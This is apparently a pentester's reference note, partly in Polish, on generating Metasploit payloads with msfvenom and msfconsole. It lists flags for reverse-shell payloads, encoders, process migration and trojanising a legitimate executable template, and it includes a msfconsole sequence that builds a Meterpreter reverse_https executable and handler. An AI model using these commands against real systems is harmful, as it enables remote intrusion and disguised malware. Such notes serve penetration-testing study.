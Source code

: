 

# MSFVENOM (payload)

https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html

**Tutorial:** https://www.hackingarticles.in/msfvenom-tutorials-beginners/
Ciekawe payloady: https://www.hackingarticles.in/fun-metasploit-payloads/

| msfvenom | what | msfvenom help |
| ---- | ---- | ---- |
| `-p ... LHOST=... LPORT=... ...`<br><br>automatyczna migracja do procesu<br>`prpendmigrateprocess=explorer.exe prependmigrate=true` | payloads | `msfvenom --list payloads`<br>`msfvenom --list-options -p ...` |
| `-f exe` | formats | `msfvenom --list formats` |
| `> file.exe`<br>`-o file.exe` | zapisz do pliku |  |
| `-e x86/shikata_ga_nai` <br>`-i 3` | encoders | `msfvenom --list encoders` |
| `-b '\x00\x0a\x0d\x20\xff'` | bad chars to avoid |  |
| `-x calc.exe` | custom template |  |
| `-k` | keep functionality of template |  |
| `--smallest` | generate smallest possible payload |  |


https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86

## paylod z msfconsole

https://www.rapid7.com/blog/post/2020/12/23/metasploit-tips-and-tricks-for-haxmas-2020-2/#Skipping%20msfvenom's%20boot%20time

```bash
# omijanie msfvenom, generowanie payload z msfconsole
# Use the payload module:
use windows/meterpreter/reverse_https
set LHOST 127.0.0.1
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false

# Create the executable, as an alternative to msfvenom:
generate -o reverse_windows.exe -f exe

# Create a handler, as an alternative to exploit/multi/handler
to_handler / exploit -jq
```

## Własny shellcode zamiast metasploitowego payloadu

```bash
$ cat binshellcode.bin | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f c -b '\x00'
-p - instructs msfvenom to read the custom payload from the stdin
--platform win: is used to specify the platform
-e x86/shikata_ga_nai: specifies the encoder to use
-f c: sets the output format (in this case C)
```
